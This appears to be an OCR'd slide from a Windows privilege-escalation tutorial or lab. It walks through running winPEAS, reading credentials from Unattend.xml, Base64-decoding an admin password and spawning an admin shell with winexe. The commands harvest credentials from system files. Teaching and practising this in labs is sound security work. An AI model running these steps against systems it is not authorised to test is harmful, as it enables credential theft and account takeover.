 1.
Use winPEAS to search for common files which may
contain credentials:
> .\winPEASany.exe quiet cmd searchfast filesinfo


2.
The Unattend.xml file was found. View the contents:
> type C:\Windows\Panther\Unattend.xml

3.A password for the admin user was found. The password is Base64 encoded: cGFzc3dvcmQxMjM=


4.On Kali we can easily decode this:
 echo "cGFzc3dvcmQxMjM=" | base64 -d

5.Once again we can simply use winexe to spawn a shell as
the admin user.